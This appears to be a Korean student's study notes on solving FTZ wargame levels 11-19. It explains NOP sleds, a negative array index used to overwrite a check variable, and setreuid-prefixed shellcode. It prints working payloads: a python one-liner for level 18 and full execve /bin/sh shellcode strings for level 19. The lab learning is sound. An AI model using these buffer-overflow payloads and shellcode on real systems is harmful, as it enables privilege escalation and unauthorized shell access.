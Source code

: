 ## FTZ 11-19번을 두.번.째 풀면서 공부한 것 



### * 15-17번을 풀며... NOP Sled란 ?  

---

일단 15~17번 문제를 보자. 

![15](C:\Users\96dks\Desktop\15.JPG)

[15번]

![16](C:\Users\96dks\Desktop\16.JPG)

[16번]

![17](C:\Users\96dks\Desktop\17.JPG)

[17번]

위 문제들은 모두 fgets()로 받은 입력값을 버퍼에 저장하고 있다. 

(그런데 잘 보면 모두 버퍼가 할당된 값(20바이트)보다 입력받는 값(45, 48바이트)이 커서 데이터가 넘칠수 있다는 것을 알 수 있다. 취약하다 취약해)

 

아무튼 우리는 버퍼를 아무 값으로 덮어씌우고 RET에 쉘코드 주솟값을 덮어 씌워서 쉘을 따는 게 목적이니까 ! 

페이로드를 작성해 볼건데 !! 

이번에는 "A"가 아닌 "\x90"을 넣어봤다.  왜냐하면 ...

#### * NOP Sled 란? 

> : No-OPeration(실행을 해도 실행할 명령어가 없기때문에 실행포인터가 다음 흐름으로 넘어간다)  Sled(썰매처럼) 
>
> 분기 명령어의 대상을 정확하게 모를 때 고의적으로 실행흐름을 아래로 흘러 보내는데 사용된다. [출처:위키백과]
>
> <사용법>
>
> 공격코드 앞뒤로 아무런 명령을 수행하지않는(연산을 하지않는) NOP == “\x90” 을 넣으면 된다. 

이런 방법도 있더라. 난 원래 계산해서 풀었었는데

두번째로 다시 풀면서 동아리 친구들이 알려줘서 알게 된 방법이다. 



[풀이]

15~17번은 이 방법으로 buf값을 쭉 지나고 RET에 쉘코드 주솟값을 넣어줬다. -끝-



---

### * 18번을 풀며... 배열 음수 인덱스로 접근 ?  

---

이 문제는 소스가 엄청 길다. 문제를 보자. 

 ![18-1](C:\Users\96dks\Desktop\18-1.JPG)

![18-2](C:\Users\96dks\Desktop\18-2.JPG)

(사진이 끊겨있지만 찰떡같이 봐주세요) 

일단 우리가 원하는 건 권한상승+쉘 따기인데 문제를 읽어보니까 맨밑의 shellout()함수에 그 조건이 갖춰져있다. 그러니까 우린 저 함수를 실행시켜야 한다. 

두번째 if문을 보면 check가 deadbeef일 때 shellout함수를 호출한다. 

즉 check를 deadbeef로 채워야한다 !! 

**[이 문제를 풀기 위한 핵심 포인트]**

> 1. 이 문제는 스택 상황을 꼭 꼭 종이에 직접 그려가며 풀어봐야만 한다. 
> 2. switch문 
> 3. 입력 받는 위치가 어디인가? 를 잘 생각해보자 ; 코드가 길어서 어려워보이지만 이것만 명확히하면 문제가 엄청 쉬워지는 개인적인 꿀팁



[풀이]

우선 스택상황은 이렇다. 

> count(=0) 4  + x(=0) 4 + check 4 + string 100 + SFP 4 + RET 4 



그리고 check를 deadbeef로 채우기 위해서 switch문을 정리해보자. 

우선 위부터 두 개의 case는 안봐도 될 것 같고, 의미있는 부분은 

> switch(x) {
>
> case 0x08;
>
> ​	count--;
>
> ​	break;
>
> default;
>
> ​	string[count]=x;
>
> ​	count++;
>
> ​	break;
>
> } 

이다. 내가 생각하기에 여기서 주목할 부분은 

x에 인자값으로 뭘 받느냐에 따라서 count가 --/++되고, 

count가 0으로 초기화된 상태인데 count--;가 되면 default에서 string[-1], string[-2], ... 가 된다는 점이다.  

인덱스 값에 음수가 들어갈 수 있나??? 하고 찾아보니까 다음의 지식을 얻었다. 

> c언어에서 배열을 사용할 때 선언부가 아닌 곳에서 [] 를 사용할 때에는 양수든 음수든 0이든 정수값이면 된다.  [출처:맨 밑에 참고자료 링크]



**그렇다면!** 

count=0인 상황에서 string에 정상적으로 데이터가 쌓였다면 string[0]-> string[1]-> string[2]->...->SFP 로  데이터가 들어가야 하는데 

count가 음수값이면 메모리상에서 string 다음에 할당된 변수 check에 데이터가 들어가는 게 아닐까 ? 하는 기대를 하며 페이로드를 구성해봤다. 

>   $ (python -c 'print "\x08"*4 + "\xef\xbe\xad\xde"';cat) | ./attackme

(설명:)일단 x에 "\x08"을 4번 넣어서 count를 -4로 만들어주면 

default에서 string[-4]=x가 되므로 우리가 예상(기대)하고 있는대로 check에 값을 입력할 수 있게 된다. 

check부분에 deadbeef를 넣어주면 shellout()이 실행된다. -끝-



---

### * 19번을 풀며... 쉘코드

---

앞선 FTZ 문제들은 소스에 setreuid가 지정되어있었다. 

​    ![19](C:\Users\96dks\Desktop\19.JPG)

그런데 19번은 없다 !! 

따라서 19번 쉘코드에는 **<u>이것</u>**이 포함된 쉘코드를 사용해야만 하는데 ...!!



[풀이] 

; 이전에 써온 쉘코드로 공격을 시도해봤지만 공격은 실패했다. 

그것은 문제에 setreuid를 정해주는 부분이 없기때문이다. 

지금까지는 문제에서 setreuid가 설정돼있고 조건을 만족하면 쉘을 얻어냈기때문에 권한이 상승된 채로 쉘을 얻어서 명령어를 입력할 수 있었는데, 

이번 문제에선 권한상승이 되지 않고 쉘만 얻어내서 id, my-pass 등의 명령어를 입력해봤자 19레벨 권한에서만 실행이된다. 즉 20레벨의 권한을 얻지 못한다. 

위에서 말한 **<u>이것</u>**은 바로 setreuid를 지정해주는 코드를 이전에 썼던 쉘코드의 앞에 추가해 주는 것이다. 

이것때문에 쉘코드 만드는 방법까지 찾아보긴했지만, 나는 직접 만들어보진 않았고 

만들어져있던 코드를 빌려와서 문제를 풀었다. 

코드는 다음과 같다 

* 기존코드 (25바이트)

  > export SHELL=`python -c 'print "\x90"*90+"\x31\xc0\x31\xd2\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80"'`

*  setreuid 추가한 코드 (41바이트) 

  > export SHELL=`python -c 'print "\x90"*90+"\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

-끝-  





#### *참고자료

- 배열의 음수 인덱스

  http://andyader.blogspot.com/2013/09/c-experiment-1.html